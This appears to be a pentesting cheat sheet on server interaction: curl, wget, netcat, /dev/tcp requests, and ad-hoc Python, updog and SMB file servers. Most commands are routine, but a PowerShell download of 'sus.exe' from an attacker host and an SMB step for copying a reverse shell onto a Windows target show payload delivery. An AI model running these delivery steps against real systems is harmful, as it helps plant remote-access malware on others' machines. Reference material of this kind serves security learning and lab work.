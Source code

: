 # Server Interactions

## <mark style="color:red;">Interact with Servers</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th width="606">Command</th><th>Description</th></tr></thead><tbody><tr><td><mark style="color:yellow;"><code>curl -v http://&#x3C;ip></code></mark></td><td>Access a website</td></tr><tr><td><mark style="color:yellow;"><code>curl -X POST http://website -d 'username=user&#x26;password=pa$$word'</code></mark></td><td>Use POST method to login to website</td></tr><tr><td><mark style="color:yellow;"><code>curl -o stuff.html http://website/stuff.html</code></mark></td><td>Save to file</td></tr><tr><td><mark style="color:yellow;"><code>wget https://website.com/file.txt</code></mark></td><td>Pull specified file</td></tr><tr><td><mark style="color:yellow;"><code>wget -r http://&#x3C;ip></code></mark></td><td>Download all files recursively</td></tr><tr><td><mark style="color:yellow;"><code>wget -r ftp://&#x3C;ip></code></mark></td><td>Download the files from FTP server</td></tr><tr><td><mark style="color:yellow;"><code>ftp &#x3C;ip></code></mark></td><td>Connect to FTP</td></tr><tr><td><mark style="color:yellow;"><code>sftp &#x3C;ip></code></mark></td><td>Secure FTP</td></tr><tr><td><mark style="color:yellow;"><code>powershell -c wget http://&#x3C;localIP>:8080/sus.exe -outfile sus.exe</code></mark></td><td>Download from URL</td></tr></tbody></table>

Send Cookie settings with data, then pipe results:

{% code overflow="wrap" %}
```bash
curl 'website' -H 'Cookie: name=user; settings=1,2,3,4,5,6,7' --data 'name=User' | base64 -d > item.png
```
{% endcode %}

Connect and send HTTP Request.

```bash
nc www.example.com 80
```

This will take you to a blank line. \
This means you are connected but will display nothing until you send a HTTP request

```bash
GET / HTTP/1.1
```

OR

```bash
GET /
```

Interact with a webpage using /dev/tcp:

{% code overflow="wrap" %}
```
exec 3<>/dev/tcp/www.google.com/80

echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3

cat <&3
```
{% endcode %}

## <mark style="color:red;">Create a Server</mark>

### <mark style="color:purple;">Python</mark>

| <mark style="color:yellow;">`python3 -m http.server`</mark>      | Creates a Python HTTP server |
| ---------------------------------------------------------------- | ---------------------------- |
| <mark style="color:yellow;">`python3 -m SimpleHTTPServer`</mark> | Creates a Python HTTP server |

There is no indexing with this method.

You need to know exact file location when pulling a file.

### <mark style="color:purple;">Updog</mark>

| <mark style="color:yellow;">`updog`</mark>                     | Serve from your current dir |
| -------------------------------------------------------------- | --------------------------- |
| <mark style="color:yellow;">`updog -d /dir`</mark>             | Serve from another dir      |
| <mark style="color:yellow;">`updog -p 1234`</mark>             | Serve from port 1234        |
| <mark style="color:yellow;">`updog --password pa$$word`</mark> | Password protect the page   |
| <mark style="color:yellow;">`Updog --ssl`</mark>               | Use an SSL connection       |
| <mark style="color:yellow;">`pip3 install updog`</mark>        | Install Updog               |

Note: updog uses HTTP basic authentication.

To login, you should leave the username blank and just enter the password in the password field.

https://github.com/sc0tfree/updog

### <mark style="color:purple;">Netcat</mark>

#### <mark style="color:green;">Serve a basic webpage</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th width="528">Command</th><th>Description</th></tr></thead><tbody><tr><td><mark style="color:yellow;"><code>nc -lp 1234 &#x3C; index.html</code></mark></td><td>This will serve the page only once then quit</td></tr><tr><td><mark style="color:yellow;"><code>while true; do nc -lp 8080 &#x3C; index.html; done</code></mark></td><td>This will keep it up until you stop it</td></tr></tbody></table>

#### <mark style="color:green;">Pulling a webpage</mark>

Connect and send HTTP Request.

```bash
nc www.example.com 80
```

This will take you to a blank line. This means you are connected but will display nothing until you send a HTTP request

```bash
GET / HTTP/1.1
```

OR

```bash
GET /
```

### <mark style="color:purple;">SMB server</mark>

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py <yourHostname> .
```

Transfer to windows using SMB. Put your reverse shell in the pwd and run this on the target:

```bash
copy \\10.10.10.1\<YourHostname>\sus.exe C:\sus.exe
```
